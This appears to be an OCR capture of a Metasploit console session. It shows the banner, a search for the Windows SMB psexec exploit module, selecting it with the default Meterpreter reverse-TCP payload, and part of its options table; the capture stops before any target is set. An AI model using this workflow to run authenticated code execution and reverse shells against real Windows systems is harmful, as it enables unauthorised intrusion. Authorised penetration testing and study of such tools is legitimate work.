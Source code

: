 ```bash
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`

                             https://metasploit.com


       =[ metasploit v6.4.55-dev-                         ]
+ -- --=[ 2502 exploits - 1287 auxiliary - 431 post       ]
+ -- --=[ 1616 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

search exploit/windows/smb/psexec
msf6 > search exploit/windows/smb/psexec

Matching Modules
================

   #  Name                        Disclosure Date  Rank    Check  Description
   -  ----                        ---------------  ----    -----  -----------
   0  exploit/windows/smb/psexec  1999-01-01       manual  No     Microsoft Windows Authenticated User Code Execution
   1    \_ target: Automatic      .                .       .      .
   2    \_ target: PowerShell     .                .       .      .
   3    \_ target: Native upload  .                .       .      .
   4    \_ target: MOF upload     .                .       .      .
   5    \_ target: Command        .                .       .      .


Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/psexec
After interacting with a module you can manually set a TARGET with set TARGET 'Command'

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   SERVICE_DESCRIPTI                   no        Service description to be use
   ON                                            d on target for pretty listin
                                                 g
   SERVICE_DISPLAY_N                   no        The service display name
   AME
   SERVICE_NAME                        no        The service name
   SMBSHARE                            no        The share to connect to, can
                                                 be an admin share (ADMIN$,C$,
                                                 ...) or a normal read/write f
                                                 older share


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on

```